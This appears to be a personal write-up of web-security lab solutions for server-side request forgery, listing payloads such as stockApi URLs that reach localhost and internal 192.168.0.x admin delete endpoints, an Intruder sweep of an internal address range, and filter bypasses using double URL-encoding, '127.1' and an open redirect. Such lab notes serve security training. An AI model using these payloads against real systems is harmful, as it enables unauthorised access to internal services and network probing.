 #### 1.Lab: Basic SSRF against the local server

- This lab has an SSRF vulnerability in the stock check feature
- We see that to check the stock a post request is sent in the stockApi section
- now we write `stockApi=http://localhost/admin/delete?username=carlos` instead
- this
#### 2.Lab: Basic SSRF against another back-end system

It is stated in the lab. desc
- Send the `Post /product/stock` request to repeater
- change stockApi value to `http%3A%2F%2F192.168.0.1%3A8080%2Fadmin%2Fdelete?username=carlos`
- send the new POST request to Intruder
- Add a payload to at the end of the IP address `192.168.0.PAYLOAD_GOES_HERE`
- Set the payload to consist of Numbers from 1 to 255
- Wait till you get the 'Congratulations' message

#### 3.Lab: ~~Blind SSRF with out-of-band detection~~ Burp PRO


#### 4.Lab: SSRF with blacklist-based input filter

In this lab it is written in the lab description that the application has two weak SSRF-prevention measures. Prior to this we need to know that these applications might block certain expression in the request ergo blacklist certain words

- change the stockApi section to `stockApi=http://localhost/admin/delete?username=carlos`
- you'll see that this request is blocked by the application
- change the admin part of the stockApi to `%2561%2564%256d%2569%256e`
- and change the localhost part to 127.1
- with these changes the lab will be solved

#### 5.Lab: SSRF with filter bypass via open redirection vulnerability
It is sometimes possible to bypass filter-based defenses by exploiting an open redirection vulnerability. If the redirection is vulnerable we can use to perform an SSRF attack the lab tells us to use this URL : `http://192.168.0.12:8080/admin`.
- try pevious aproaches and fail
- click on the next product link
- check that it has a path section in the url
- change the url to `path=http://192.168.0.12:8080/admin/delete?username=carlos` in the stockApi section
- Voila Lab solved

#### 6.Lab: ~~Blind SSRF with Shellshock exploitation~~ Burp Pro



